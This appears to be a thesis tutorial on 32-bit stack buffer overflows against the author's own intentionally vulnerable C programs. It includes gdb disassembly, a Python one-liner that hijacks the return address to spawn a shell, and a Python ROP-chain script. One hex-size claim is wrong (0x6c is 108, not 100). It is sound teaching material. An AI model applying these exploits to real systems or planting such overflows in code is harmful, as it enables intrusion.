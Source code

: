 On the following example all binaries are compiled in x86 32-bits using the
`-m32` flag on `gcc`. We will divide our first case study in three parts. First
we will see how to call a function with a buffer overflow on a vulnerable
binary. Then we see how arguments can be controlled during execution, finally we
will build our first ROP chain.

Every code sample can be found in the GitHub repository
[here](https://github.com/jcouvy/bsc_thesis/tree/master/examples/)

# Calling a function

Below is the source code of a simple binary vulnerable to a stack smashing
attack. We will be attempting to call the unused function `exec_shell()` that
will in spawn us a shell.

```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void exec_shell()
{
	printf("Spawning a shell\n");
	system("/bin/sh");
}

void vuln_func(char * string)
{
	char buffer[100];
	strcpy(buffer, string);
}

int main(int argc, char* argv[])
{
	if (argc != 2) {
		fprintf(stderr, "Usage: <string>");
		exit(1);
	}
	vuln_func(argv[1]);
	return 0;
}
```

First off, we want to disassemble the program to learn information we will need
for our exploit. The targetted information are: the size of the buffer and the
address of exec_shell. The former will help us overflow the buffer without going
too far leading to a segmentation fault while the latter is mandatory to
overwrite the return address of the program.

Using the GNU Debugger `gdb` we get the following output:

```
❯ gdb -q simple_overflow
Reading symbols from simple_overflow...(no debugging symbols found)...done.
(gdb) disas vuln_func
Dump of assembler code for function vuln_func:
   0x08048524 <+0>:	push   %ebp
   0x08048525 <+1>:	mov    %esp,%ebp
   0x08048527 <+3>:	sub    $0x78,%esp
   0x0804852a <+6>:	sub    $0x8,%esp
   0x0804852d <+9>:	pushl  0x8(%ebp)
   0x08048530 <+12>:	lea    -0x6c(%ebp),%eax
   0x08048533 <+15>:	push   %eax
   0x08048534 <+16>:	call   0x80483a0 <strcpy@plt>
   0x08048539 <+21>:	add    $0x10,%esp
   0x0804853c <+24>:	nop
   0x0804853d <+25>:	leave  
   0x0804853e <+26>:	ret    
End of assembler dump.

(gdb) print exec_shell
$1 = {<text variable, no debug info>} 0x80484fb <exec_shell>
```

The machine instruction found at `0x08048530` gives us the size of the
buffer `0x6c`(100 in hex). We also located exec_shell at address `0x80484fb`. Here is the
state of the stack at this point:

```
| <argument>          |
| <return address>    |
| <old %ebp>          | <= %ebp
| <0x6c bytes of      |
|       ...           |
|       buffer>       |
| <argument>          |
| <address of buffer> | <= %esp
```

To overwrite the return address with the one of `exec_shell` we need to fill the
buffer with 0x6c bytes, overwrite SFP with a fake value and then the target
address. This is the state of the stack after our payload:

```
| <0x80484fb <exec_shell>    |
| 0x42424242 <fake old %ebp> | "BBBB" in hex
| 0x41414141 ...             | "AAAA" in hex
|   ... (0x6c bytes of 'A's) |
|   ... 0x41414141           |
```

We exploit the inner vulnerabilty of `strcpy()` with a python one-liner to
conduct our attack and spawn a shell.

```bash
❯ ./simple_overflow "$(python2 -c 'print "A"*0x6c + "BBBB" + "\xfb\x84\x04\x08"')"
Spawning a shell !
sh-4.4$ 
```

My machine uses an Intel CPU (all intel processors are little endian), thus it
is necessary to parse the address of the target function according to
endianness. A quick look at `lscpu` will display the CPU's endianness.

```
❯ lscpu
Architecture:          x86_64
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
[...]
```

Note that `\x` in Python is the formatter for a Hex values.

# Passing arguments

```C
char* safe_string = "/bin/sh";

void tchoo_tchoo(char* buffer)
{	
	printf("Here comes the train \n:");
	system("/bin/sl");
}

void vuln_func(char* string)
{
	char buffer[100];
	strcpy(buffer, string);
}

int main(int argc, char** argv)
{
	if (argc != 2) {
		fprintf(stderr, "Usage: <string>");
		exit(1);
	}
	vuln_func(argv[1]);
	return 0;
}
```

# Creating a ROP chain

```C
//Vulnerability: Buffer Overflow
//Goal: Call add_sh() -> add_bin() -> exec_command()
//Payload:
//
//	We control the stack and push the key args to pass the tests.
//	A pop; ret; gadget is inserted as a return addr of the function
//	so that the argument is removed from the stack and the program
//	returns to the next gadget (gadget chaining).
//
//	+-----------------------------+
//	|            stack            |
//	+-----------------------------+
//	| <address of exec_command()> |
//	| 0xcafebabe <key1>           |
//	| 0x8badfood <key2>	      |
//	| <address of POP; POP; RET>  |
//	| <address of add_sh()>       |
//	| 0xdeadbeef <key>            | <argument>
//	| <address of POP; RET>       | <return addr>
//	| <address of add_bin()>      | <function call>
//	| 0x42424242 <fake old %ebp>  |
//	| 0x41414141 ...              |
//	|   ... (0x6c bytes of 'A's)  |
//	|   ... 0x41414141            | 0x41414141 == "AAAA"


char command[100];

void exec_command()
{
	system(command);
}

void add_bin(int key)
{
	if (key == 0xdeadbeef) {
		strcat(command, "/bin");
	}
}

void add_sh(int key1, int key2)
{
	if (key1 == 0xcafebabe && key2 == 0x8badf00d) {
		strcat(command, "/sh");
	}
}

void vuln_func(char* string)
{
	char buffer[100];
	strcpy(buffer, string);
}

int main(int argc, char** argv)
{
	command[0] = 0;
	vuln_func(argv[1]);
	return 0;
}
```


```python
#!/usr/bin/python2

import os
import struct # This module performs conversions between Python
              # values and C structs represented as Python strings.
              # It uses Format Strings as compact descriptions of the layout 
              # of the C structs and the intended conversion to/from Python values.

# Gadgets found with Ropper
pop_ret      = 0x0804848e
pop_pop_ret  = 0x0804848d


# Addresses of functions found using gdb.
add_bin      = 0x8048454
add_sh       = 0x8048490
exec_command = 0x804843b

payload  = "A"*0x6c
payload += "BBBB"

# "I" is the format for unsigned integer
payload += struct.pack("I", add_bin)
payload += struct.pack("I", pop_ret)
payload += struct.pack("I", 0xdeadbeef)

payload += struct.pack("I", add_sh)
payload += struct.pack("I", pop_pop_ret)
payload += struct.pack("I", 0xcafebabe)
payload += struct.pack("I", 0x8badf00d)

payload += struct.pack("I", exec_command)

os.system("./chaining_func \"%s\"" % payload)
```
